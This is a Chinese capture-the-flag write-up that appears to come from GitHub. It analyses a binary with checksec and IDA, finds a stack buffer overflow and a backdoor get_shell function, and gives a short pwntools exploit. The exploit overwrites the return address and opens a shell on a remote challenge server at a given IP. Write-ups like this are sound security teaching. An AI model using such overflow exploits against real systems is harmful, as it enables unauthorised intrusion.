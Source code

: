 先file打开查看文件\
![image](https://user-images.githubusercontent.com/98165037/187692307-6cbc76d4-d8aa-4371-b2ff-6360dfbb5452.png)\
\
接着checksec查看文件开启了哪些保护\
![image](https://user-images.githubusercontent.com/98165037/187692991-5b60e48e-70a7-466e-9718-098fd8189651.png)\
显示没有开启什么保护，只有一个Partial RELRO\
把文件放进ida里看看，按f5\
![image](https://user-images.githubusercontent.com/98165037/187866414-3d6be811-6b95-4c56-9316-43bdc57a0e01.png)\
发现有一个字符数组s的长度定义为48（0x30），但下面的read函数往s里读入了0x100长度的内容，就会产生栈溢出问题\
另外还发现了一个后门函数get_shell\
![image](https://user-images.githubusercontent.com/98165037/187867096-2c509081-3ce1-4aed-bb7a-254000490518.png)\
查看它的地址\
![image](https://user-images.githubusercontent.com/98165037/187868458-ef3af477-eef5-4b95-87a8-76abd15a860e.png)\
这样就可以通过s处栈溢出ret到后门函数直接拿到shell了\
即需要输入0x30个字节的数据覆盖s，再输入8个字节的数据覆盖栈底指针rbp，然后将返回值修改为get_shell_()函数的地址\
exp如下：
```
from pwn import *

io = remote("114.67.246.176", 15587) 

payload = b'a' * (0x30 + 0x8) + p64(0x400751)

io.recvline("say something?\n")

io.send(payload)

io.interactive()
```
运行就可以得到flag啦\
![image](https://user-images.githubusercontent.com/98165037/187866262-433f7d0f-eaf7-40d4-b65b-f0eb0ccd171f.png)\

